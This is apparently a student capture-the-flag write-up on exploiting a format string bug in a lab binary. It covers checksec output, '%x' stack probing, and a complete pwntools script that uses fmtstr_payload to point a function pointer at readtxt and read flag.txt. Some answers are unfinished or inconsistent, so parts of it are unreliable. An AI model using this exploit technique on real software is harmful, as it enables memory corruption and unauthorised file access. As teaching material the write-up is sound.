





# CTF6

This document is a brief explanation of our resolution of the Format Strigs CTF given to us during week 6.

## Recognition

We start exploring the program source code and answering this questions:


- **Question1**: Is there any file that is opened and read by the program?

- **Answer**: Yes, the file `rules.txt` is opened by the program.

- **Question2**: Is there any way to control what file is opened?

- **Answer**: We can change the file that is opened by redirecting the `fun` pointer, to the function `readtxt` and giving the name of the file that we want to open, `flag.txt`.

- **Question3**: Is there any format string? If so, how is it vulnerable and what can you do?

- **Answer**: Yes, ??????????????? readtxt address = 0x80497a5

## Searching and Analysing

First we tested if the program is safe or if it has some type of vulnerability by running the command `checksec program` and this was what we obtained:

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 1: Checksec information.</figcaption>
    </figure>
</div>

Here we can observe that the program has some important protection mechanisms deactivated:

 - **RELRO**: Without this, we can perform a GOT overwrite attack, redirecting the execution flow of the program.
 - **Stack Canary**: Here it says that the program has a canary but in the statement of the CTF it says that "the challenge binary does not contain a canary", making it easy to attack.
 - **PIE**: Without the PIE, the program loads at a fixed address every time, making it easy to exploit.

The program has some other important vulnerabilities deactivated but these are the most important to our exploit.

To do the exploit we need to find some important things in the program like addresses, buffer sizes, stack format...

When we initiate the program we have a mensage that tells us what is the address of the `fun` pointer and we can see that it **changes everytime** we run the program (an important detail).

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 2: fun address.</figcaption>
    </figure>
</div>

We then searched for the memory address where the function `readtxt` is allocated. To do that we used the `gdb` tool and found out that it was the address `0x80497a5`.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 3: readtxt address.</figcaption>
    </figure>
</div>

Knowing this addresses was a very important part of the exploit, but now we needed to understand how the stack worked and how we could change the value of the `fun` pointer to point to the function `readtxt`.

The program has a vulnerability that prints directly what is writted in the buffer so we can pass some inputs to explore the stack and take some important information.

By using this payload we are able to know what is the offset where our input appears in the stack:

```python
payload = "AA" + "%x" * 4
```

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure 4: stack offset.</figcaption>
    </figure>
</div>

By observing the output of this payload we were able to see that the offset is actualy 1.

After all this searching and analysing we are able to start building the exploit

## Exploit

To build the exploit we start studying one particular module of the format strings, the **Format string bug exploitation tools** - `pwnlin.fmtstr`.

Like we said before the address of the `fun` pointer was changing everytime we runed the program and because of that we needed to extract this address from the statement of the program.

After successefully extracting this address we now have everything to build a payload to attack the program.

```python
payload = b"./flagxx" + fmtstr_payload(3, {int_fun: readtxt_address}, numbwritten=8)
```

This was the payload we used in the exploit and this is how it works:
- Observing the program source code we found out that the `readtxt()` function reads the 6 first bytes of the buffer so we need to put in this bytes the file we want to read `flag.txt`. In this case we put `./flagxx` so we guarantee that we pass the right path of the file, and we add the two `x` to complete the 8 bytes to guarantee the proper alignment in the stack.
- The function `fmtstr_payload()` works with the values in the stack. So the first argumment is the offset where our data appear in the stack that in this case was `1 + 2` because the initial offset was `1` and because we put the `./flagxx` before the offset increase 2 bytes. The second argumment is to write in the `fun` pointer the address of the `readtxt()` function. The last argumment is the number of characteres that we write in the stack.

This is the source code of our exploit:

```python
#!/usr/bin/python3 
from pwn import *

#r = remote('ctf-fsi.fe.up.pt', 4005)
#r = remote('127.0.0.1', 4003)
r = process('./program')

context(arch='i386')

res = r.recvuntil(b"flag:\n")


# Extract the address of the fun pointer
aux_fun = res[res.find(b"hint:") + 6:res.find(b"hint:") + 14]

# Conversion of the hexadecimal string to integer
fun = int(aux_fun, 16)

# readtxt function address
readtxt_address = 0x80497a5

# Generating the payload to overwrite the fun pointer
payload = b"./flagxx" + fmtstr_payload(3, {fun: readtxt_address}, numbwritten=8)

# Writing the payload
r.sendline(payload)


# Receber e imprimir a saída final (conteúdo do flag.txt)
buf = r.recvall().decode(errors="backslashreplace")
print(buf)
```


And using that python script we were able to find te flag from the file `flag.txt`.

<div align="center">
    <figure>
        
        <figcaption style="font-size: smaller;">Figure ?: Flag founded.</figcaption>
    </figure>
</div>